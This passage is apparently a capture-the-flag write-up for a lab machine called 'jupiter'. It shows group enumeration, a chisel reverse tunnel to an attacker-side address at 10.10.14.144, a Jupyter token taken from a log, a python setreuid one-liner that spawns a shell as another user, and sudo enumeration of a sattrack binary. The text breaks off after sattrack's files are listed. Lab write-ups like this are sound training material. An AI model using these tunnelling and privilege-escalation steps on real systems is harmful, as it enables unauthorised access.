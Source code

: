 `uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)`

`find / -group science 2>/dev/null`

```
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/*
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
```

# Jupyter on :8888

`./chisel server -p 1337 --reverse`

`./chisel client 10.10.14.144:1337 R:8888:127.0.0.1:8888/tcp`

```json 
"notebook_version": "6.5.3"
```

**There is a token in** `/opt/solar-flares/logs/jupyter-2023-06-10-55.log`:

```
http://localhost:8888/?token=25a28dce6d4b11b008f473b34c88f40bdd05a7cc546dabe2
```

**We can log in and get a SUID bash / reverse shell.**

Setting UID for SUID bash:

`python3 -c 'import os; os.setreuid(1001,1001); os.setregid(1002,1002); os.system("/bin/bash")'`

# Escaping jovian

`sudo -l`

```
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

`find / 2>/dev/null | grep -i sattrack`

```
/usr/local/share/sattrack
/usr/local/share/sattrack/config.json
/usr/local/share/sattrack/map.json
/usr/local/share/sattrack/earth.png
/usr/local/bin/sattrack
```
